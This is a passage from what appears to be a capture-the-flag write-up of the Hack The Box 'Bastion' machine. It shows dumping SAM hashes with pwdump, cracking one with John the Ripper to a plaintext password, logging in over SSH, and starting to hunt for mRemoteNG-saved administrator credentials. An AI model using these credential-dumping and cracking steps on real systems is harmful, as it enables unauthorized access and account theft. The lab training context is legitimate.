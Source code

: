 I now have access to the system and SAM hive and I dump the hashes from the database:
```
/mnt/bastion_backup/Windows/System32/config# pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

With John The Ripper I can crack the hash for user `L4mpje`: `bureaulampje`
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

With that account I can SSH in and get the user flag:
```
# ssh l4mpje@10.10.10.134
l4mpje@10.10.10.134's password:

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>cd desktop

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\Desktop

22-02-2019  16:27    <DIR>          .
22-02-2019  16:27    <DIR>          ..
23-02-2019  10:07                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.389.775.872 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bfe57...
```

### Getting the administrator credentials

I do some recon and found the mRemoteNG application is installed on the system. mRemoteNG is a multi-protocol connection manager and allows users to connect to systems with different protocols like SSH, RDP, VNC, etc. As such, it supports saving the credentials locally in a configuration file.

The XML configuration file is located here: `C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml`
